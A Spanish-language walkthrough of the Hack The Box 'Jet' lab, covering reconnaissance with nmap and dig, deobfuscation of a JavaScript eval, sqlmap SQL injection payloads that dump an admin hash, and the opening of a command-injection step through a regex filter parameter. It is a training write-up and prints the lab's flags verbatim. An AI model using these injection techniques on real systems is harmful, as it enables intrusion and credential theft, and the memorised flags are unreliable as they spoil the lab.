




Jet.com es una empresa que esta desarrollando una nueva metodologia para el comercio electronico, ha colaborado con Hack The Box ofreciendonos una cantidad interesante de vulnerabilidades que ayudaran mucho a tener una vision mas empresarial de las pruebas de penetracion incorporando algunas flags que nos iran indicando cuando hemos pwneado cierta vulnerabilidad expuesta.
Flag 1: Connect
La primera flag se consigue bajo la instruccion de conectar, primero verificamos si tenemos conexión e indirectamente conocemos el sistema operativo [ttl=64 - Linux] bajo el cual se encuentra el servidor.
> ping 10.13.37.10 10.13.37.10 (10.13.37.10) 56(84) bytes of data. 64 bytes from 10.13.37.10: icmp_seq=1 ttl=63 time=81.1 ms 64 bytes from 10.13.37.10: icmp_seq=2 ttl=63 time=81.9 ms 64 bytes from 10.13.37.10: icmp_seq=3 ttl=63 time=81.1 ms 64 bytes from 10.13.37.10: icmp_seq=4 ttl=63 time=80.8 ms --- 10.13.37.10 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3005ms rtt min/avg/max/mdev = 80.776/81.225/81.910/0.418 ms
Seguido a ello revisamos los servicios disponibles con nmap
> nmap -p- --open -sS -T5 -n -Pn -oN JetPorts.nmap 10.13.37.10 Nmap scan report for 10.13.37.10 Host is up (0.089s latency). Not shown: 65529 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 53/tcp open domain 80/tcp open http 5555/tcp open freeciv 7777/tcp open cbt 9201/tcp open wap-wsp-wtp
Como servicio mas llamativo accederemos primero al puerto 80 http a traves del navegador, ecnontrandonos con la primera flag: JET{s4n1ty_ch3ck}
Flag 2: Digging in...
Para la segunda flag el nombre es una pista, basandonos en el escaneo de Nmap anterior, encontramos el servicio de dominio abierto en el puerto 53, usaremos la herramienta dig para descubrir otros dominios asociados al servidor encontrando www.securewebinc.jet
> dig @10.13.37.10 -x 10.13.37.10 ; <<>> DiG 9.16.33-Debian <<>> @10.13.37.10 -x 10.13.37.10 ; (1 server found) ;; global options: +cmd ;; Got answer: ;; AUTHORITY SECTION: 37.13.10.in-addr.arpa. 604800 IN SOA www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800
Agregamos el dominio a /etc/hosts y accedemos a la web encontrado la flag JET{w3lc0me_4nd_h@v3_fun!}.
Flag 3: Going Deeper
En la tercera flag tenemos el mismo caso, el nombre nos indica buscar mas profundo asi que revisaremos el codigo fuente de la pagina que acabamos de descubrir.
Entre el codigo fuente, siempre resaltan los scripts JS personalizados (custom), dentro de estos, el mas llamativo es secure.js
<!-- Custom scripts for this template--> <script src="js/template.js"></script> <script src="js/secure.js"></script>
En este script encontramos un eval de JS
eval(String.fromCharCode(102,117,110,99,116,105,111,110,32,103,101,116,83,116,97,116,115,40,41,10,123,10,32,32,32,32,36,46,97,106,97,120,40,123,117,114,108,58,32,34,47,100,105,114,98,95,115,97,102,101,95,100,105,114,95,114,102,57,69,109,99,69,73,120,47,97,100,109,105,110,47,115,116,97,116,115,46,112,104,112,34,44,10,10,32,32,32,32,32,32,32,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,114,101,115,117,108,116,41,123,10,32,32,32,32,32,32,32,32,36,40,39,35,97,116,116,97,99,107,115,39,41,46,104,116,109,108,40,114,101,115,117,108,116,41,10,32,32,32,32,125,44,10,32,32,32,32,101,114,114,111,114,58,32,102,117,110,99,116,105,111,110,40,114,101,115,117,108,116,41,123,10,32,32,32,32,32,32,32,32,32,99,111,110,115,111,108,101,46,108,111,103,40,114,101,115,117,108,116,41,59,10,32,32,32,32,125,125,41,59,10,125,10,103,101,116,83,116,97,116,115,40,41,59,10,115,101,116,73,110,116,101,114,118,97,108,40,102,117,110,99,116,105,111,110,40,41,123,32,103,101,116,83,116,97,116,115,40,41,59,32,125,44,32,49,48,48,48,48,41,59));
Para obtener el codigo usare la herramienta de4js encontrando el path de url /dirb_safe_dir_rf9EmcEIx/admin/stats.php
Accediendo a la URL no encontramos nada interesante.
Sin embargo, si quitamos el archivo final stats.php la pagina hace un redirect a index.php
Y en su codigo fuente la flag JET{s3cur3_js_w4s_not_s0_s3cur3_4ft3r4ll}
Flag 4: Bypassing Authentication
La instrucción de la cuarta flag nos indica que deberemos bypassear la autenticación para obtener la flag, comencé interceptando la petición del login con Burpsuite, y ya que la petición se encontraba en texto plano realicé prubeas de SQLi sin resultados positivos.

Continuando con el SQLi ejecute la herramienta automatizada sqlmap con la solicitud almacenada la cual si dió resultados, logrando enumerar las bases de datos alojadas.
> cat dologin ────┬─────────────────────────────────────────────────────────────────────────────────────────────── │ File: dologin ────┼─────────────────────────────────────────────────────────────────────────────────────────────── 1 │ POST /dirb_safe_dir_rf9EmcEIx/admin/dologin.php HTTP/1.1 2 │ Host: www.securewebinc.jet 3 │ User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0 4 │ Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 5 │ Accept-Language: en-US,en;q=0.5 6 │ Accept-Encoding: gzip, deflate 7 │ Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php 8 │ Content-Type: application/x-www-form-urlencoded 9 │ Content-Length: 29 10 │ Origin: http://www.securewebinc.jet 11 │ DNT: 1 12 │ Connection: close 13 │ Cookie: PHPSESSID=h40pauadc0vsru3ujdmq61mri3 14 │ Upgrade-Insecure-Requests: 1 15 │ 16 │ username=admin&password=admin ────┴────────────────────────────────────────────────────────────────────────────────────────────────
> sqlmap -r dologin -dbs [INFO] parsing HTTP request from 'dologin' --- Parameter: username (POST) Type: error-based Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR) Payload: username=admin' AND (SELECT 6669 FROM(SELECT COUNT(*),CONCAT(0x7178707871,(SELECT (ELT(6669=6669,1))),0x717a787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ZeSF&password=admin Type: time-based blind Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP) Payload: username=admin' AND (SELECT 6821 FROM (SELECT(SLEEP(5)))onXD)-- Gqji&password=admin --- [INFO] the back-end DBMS is MySQL web server operating system: Linux Ubuntu web application technology: Nginx 1.10.3 back-end DBMS: MySQL >= 5.0 [INFO] fetching database names available databases [2]: [*] information_schema [*] jetadmin
Procedi a dumpear la base de datos jetadmin obteniendo un hash del usuario admin.
> sqlmap -r dologin -D jetadmin --dump [WARNING] no clear password(s) found Database: jetadmin Table: users [1 entry] +----+------------------------------------------------------------------+----------+ | id | password | username | +----+------------------------------------------------------------------+----------+ | 1 | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 | admin | +----+------------------------------------------------------------------+----------+
Con el hash encontrado use la herramienta Crackstation para romper este mismo, obteniendo la contraseña del usuario admin. 
Iniciando sesion con las credenciales obtenidas obtuve la flag JET{sQl_1nj3ct1ons_4r3_fun!}.
Flag 5: Command
Para la quinta flag la instruccion es command y se basa en una vulnerabilidad de [RCE] Remote Command Execution.
Partiendo con esta idea, revise que existe un apartado de Quick Email, procedi a comprobar el funcionamiento y lógica de la trama interceptada
URL decodeando el contenido de la trama vemos lo siguiente.
swearwords[/fuck/i]=make love& swearwords[/shit/i]=poop& swearwords[/ass/i]=behind& swearwords[/dick/i]=penis& swearwords[/whore/i]=escort& swearwords[/asshole/i]=bad person& to=s0bek@mailtest.com& subject=Subject_s0b3k& message=<p>s0b3k_message<br></p>& _wysihtml5_mode=1